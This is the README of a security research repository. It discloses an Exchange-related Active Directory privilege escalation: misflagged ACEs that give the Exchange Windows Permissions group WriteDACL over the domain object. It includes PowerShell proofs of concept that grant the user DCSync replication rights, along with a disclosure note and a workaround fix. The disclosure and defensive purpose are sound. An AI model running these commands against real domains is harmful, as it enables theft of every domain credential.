


# Exchange-AD-Privesc

This repository provides a few techniques and scripts regarding the impact of Microsoft Exchange deployment on Active Directory security. This is a side project of [AD-Control-Paths](https://github.com/ANSSI-FR/AD-control-paths), an AD permissions auditing project to which I recently added some Exchange-related modules.

## General considerations

For pentesters looking to take control of an AD domain, Exchange is a valid intermediary target. The servers are much less secured than domain controllers by default and the control groups are distinct in the usual permissions models, which provides numerous alternative targets.
They are also more difficult to migrate and business critical, so organizations often adopt a slower migration process for Exchange than for AD and do not specifically harden the servers.

Exchange deployment on an Active Directory domain is an interesting case. Many attributes and classes are added to the schema, security groups are created and DACL on some AD objects are heavily modified. 

Basically, you can select among 3 permissions models:

* RBAC Split (recommended and most commonly deployed)
* Shared permissions (default)
* AD Split

Particularly, DACLs for RBAC Split and Shared models are enumerated here: https://technet.microsoft.com/en-us/library/ee681663(v=exchg.150).aspx .


High value targets:

* **Exchange Trusted Subsystem** and **Exchange Windows Permissions** groups, which are trustees for many ACE added during deployment on AD objects.
* Exchange servers: they are members of **Exchange Trusted Subsystem** and **Exchange Windows Permissions** groups. They can be compromised using many more techniques than domain controllers: local administrators domain accounts, Kerberos delegation, SMB relay, RODC replication, etc. The usual stuff.
* Organization admins: they are part of the local administrators group on Exchange servers. They also have full control on the OU containing the Exchange security groups. They can launch service/psexec/runas/... under computer identity/NetworkService/LocalSystem to control **Exchange Trusted Subsystem** and **Exchange Windows Permissions** SIDs.

## 1. Domain object DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This issue has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

* Description of the issue

When preparing Exchange 2010/2013/2016 installation in Shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the **Exchange Windows Permissions** security group.
This happens during the "Setup /PrepareDomain" command.

Two ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field. 

This is their SDDL representation :

```
(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;<SID of EWP>)
(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;<SID of EWP>)
```

Notice the missing 'IO' (inherit_only) flag. As a matter of fact, INHERITED_OBJECT_TYPE ACE effectively apply to the object itself when the inherit_only flag is not set.

This is how they are documented on Technet, so it is definitely missing that information:


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user | |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson | |


This is how they appear in the GUI (DSA console), which is also missing that information:



The issue can be confirmed in the "Effective Access" tab of the domain object when specifying EWP.




Coincidentally, INHERITED_OBJECT_TYPE ACE created with DSA console always have the IO flag. Creating a 'self and specific descendents', INHERITED_OBJECT_TYPE ACE is only possible programmatically and only viewable programmatically.


* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the **Exchange Windows Permissions** SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is not consistent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes-All extended right on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from **Organization management**, from **Account operators** or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the *Active Directory Permissions* RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an **Organization Management** member account, add yourself to **Exchange Windows Permissions**.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes-All extended right on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=com"
```


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role *Active Directory Permissions*, sets the Ds-Replication-Get-Changes-All extended right on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes-All
```

* Workaround fix

Use the Fix-DomainObjectDACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the two faulty ACE, this can be done by any user. Use with -Fix switch with Domain Admins privileges to set the inherit_only missing flags.


Another option is doing it manually with LDP. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 


